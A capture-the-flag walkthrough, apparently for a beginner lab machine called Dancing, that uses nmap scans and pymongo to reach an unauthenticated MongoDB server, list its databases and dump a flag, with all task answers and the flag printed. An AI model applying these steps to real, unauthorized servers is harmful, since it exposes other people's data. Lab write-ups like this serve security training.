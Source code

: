 # Dancing

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: MongoDB, Web, Databases, Reconnaissance, Misconfiguration, Anonymous/Guest Access - **Tools**: nmap
- Tools: nmap, ipython+pymongo or mongodb


# Walkthrough

- [MongoDB Command Reference](https://www.mongodb.com/docs/manual/reference/command/)

## Task 1: How many TCP ports are open on the machine?

```bash
> nmap -p- -sT --min-rate 3000 10.129.58.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:53 AEST
Nmap scan report for 10.129.58.99
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
27017/tcp open  mongod
```

> **Answer**: 2

## Task 2: Which service is running on port 27017 of the remote host?

```bash
> nmap -sV -p 27017 10.129.58.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:55 AEST
Nmap scan report for 10.129.58.99
Host is up (0.28s latency).

PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 3.6.8
```

> **Answer**: mongodb 3.6.8

## Task 3: What type of database is MongoDB? (Choose: SQL or NoSQL)

- **Explanation**: https://www.mongodb.com/nosql-explained

> **Answer**: NoSQL

## Task 4: What is the command name for the Mongo shell that is installed with the mongodb-clients package?

> **Answer**: mongo

## Task 5: What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

> **Answer**: show databases

## Task 6: What is the command used for listing out the collections in a database? (No need to include a trailing ;)

> **Answer**: show collections

## Task 7: What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

> **Answer**: db.flag.find().pretty()

## Submit Flag

We can use the lightweight `pymongo` python package. You can install this and use with ipython for a lightweight MongoDB client.
The advantage of utilising the python package is the ease in which we can automate it to suit our needs.
Howevr, in this case I've just run through the commands one-by-one to demonstrate the process:

```bash
> python3 -m pip install pymongo ipython
> ipython
In [1]: from pymongo import MongoClient

In [2]: client = MongoClient('10.129.228.30', 27017)

In [3]: print(client.list_database_names())
['admin', 'config', 'local', 'sensitive_information', 'users']

In [4]: database = client.admin

In [5]: database.list_collection_names()
Out[5]: ['system.version']

In [6]: database = client.sensitive_information

In [7]: database.list_collection_names()
Out[7]: ['flag']

In [8]: [print(x) for x in database['flag'].find()]
{'_id': ObjectId('630e3dbcb82540ebbd1748c5'), 'flag': '1b6e6fb359e7c40241b6d431427ba6ea'}
```

> **Answer**: 1b6e6fb359e7c40241b6d431427ba6ea
